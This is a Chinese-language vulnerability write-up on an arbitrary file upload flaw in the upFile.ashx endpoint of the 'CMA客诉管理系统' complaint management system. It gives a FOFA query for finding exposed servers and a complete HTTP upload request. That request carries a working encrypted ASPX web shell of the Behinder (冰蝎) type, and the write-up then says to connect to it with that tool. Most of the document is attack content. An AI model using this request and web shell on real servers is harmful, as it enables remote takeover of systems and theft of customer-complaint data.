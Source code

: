 # CMA客诉管理系统 upFile.ashx 任意文件上传漏洞

## 漏洞描述

CMA客诉管理系统 upFile.ashx文件存在任意文件上传漏洞，通过漏洞攻击者可以上传任意文件控制服务器

## 漏洞影响

```
CMA客诉管理系统
```

## FOFA

```
title="CMA客诉管理系统手机端"
```

## 漏洞复现

登录页面

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241430645.png)

发送请求包上传文件

```
POST /upFile/upFile.ashx HTTP/1.1
Host: 
Content-Length: 562
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymXf9pBIUlDVOYtnZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

------WebKitFormBoundarymXf9pBIUlDVOYtnZ
Content-Disposition: form-data; name="file"; filename="shell.aspx"
Content-Type: application/octet-stream

<%@ Page Language="C#" %><%@Import Namespace="System.Reflection"%><%Session.Add("k","e45e329feb5d925b");byte[] k = Encoding.Default.GetBytes(Session[0] + ""),c = Request.BinaryRead(Request.ContentLength);Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("U").Equals(this);%>

------WebKitFormBoundarymXf9pBIUlDVOYtnZ--
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241430324.png)

发送后回显路径，使用冰蝎连接

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241430125.png)